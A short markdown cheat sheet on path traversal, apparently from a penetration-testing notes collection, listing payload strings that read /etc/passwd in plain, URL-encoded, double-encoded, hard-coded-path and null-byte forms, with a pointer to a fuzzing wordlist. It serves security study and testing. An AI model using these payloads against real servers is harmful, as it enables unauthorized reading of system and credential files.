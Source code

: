 ```yaml
---
title: Path Traversal
description: Vulnerability allowing attacker to access files and directories of a system
---
```

## Exploit
### Basic
```bash
../../../etc/passwd
```

### Encoded
```bash
/%2e%2e%2f%2e%2e%2f%2e%2e/etc/passwd
```

### Double encoded
```bash
%252e%252e%252f%252e%252e%252fetc%252fpasswd
```
### Hard-coded path
```bash
/var/www/images/../../../etc/passwd
```

### Null byte
Append `%00`,  character following null byte will be ignored
```bash
../../../../../passwd%00
```

### Fuzzing
Fuzz using `LFI-Jhaddix.txt` wordlist

## Resources
-  [LFI/RFI payloads ](https://exploit-notes.hdks.org/exploit/web/security-risk/file-inclusion/)